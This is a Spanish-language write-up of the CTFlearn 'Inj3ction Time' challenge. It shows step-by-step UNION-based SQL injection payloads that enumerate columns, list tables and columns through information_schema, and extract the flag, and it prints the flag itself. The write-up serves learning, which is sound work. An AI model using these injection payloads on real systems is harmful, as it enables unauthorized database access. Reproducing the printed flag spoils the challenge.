










# CTFlearn - Inj3ction Time


## Descripción

I stumbled upon this website: http://web.ctflearn.com/web8 and I think they have the flag in their somewhere. UNION might be a helpful command.


## Solución

Vemos solo una página que nos pide un ID. Por el título y la descripción sabemos que debemos explotar un **SQLi UNION Attack**.



Probamos escribiendo números para saber qué tipo de ID necesita.



Si escribimos una letra la página no nos responde, entonces utilizaremos números.

Esto lo hacemos para tener en cuenta la comilla en nuestra inyección `'`. Como estamos trabajando con números no es necesario esta comilla al inicio de nuestra inyección.



Primeros enumeramos, agregaremos un **null** y después iremos agregando más hasta que la página nos responda correctamente.

```sql
1 union select null-- -
```



Vemos que con dos **null** tampoco funciona, así que seguimos agregando.

```sql
1 union select null,null-- -
```



Seguimos agregando hasta que llegamos a 4 y la página nos responde correctamente.

```sql
1 union select null,null,null,null-- -
```


Ahora buscamos la tabla que contenga la flag, ejecutando una query que nos muestre todas las tablas de la base de datos.

```sql
1 union select table_name,null,null,null from information_schema.tables-- -
```



Al final de la página veremos una tabla que destaca.



Ahora falta obtener el nombre de la columna donde se encuentra la flag. Para obtener eso ejecutamos la siguiente query que nos devolverá todas las columnas de la base de datos.

```sql
1 UNION SELECT column_name,null,null,null FROM information_schema.columns -- -
```



Si vamos al final de la página veremos una que destaca `f0und_m3`.



Ya tenemos la tabla y la columna donde está la flag, con esto podemos ejecutar la siguiente query y obtendremos la flag.

```sql
1 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3 -- -
```




## Flag

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`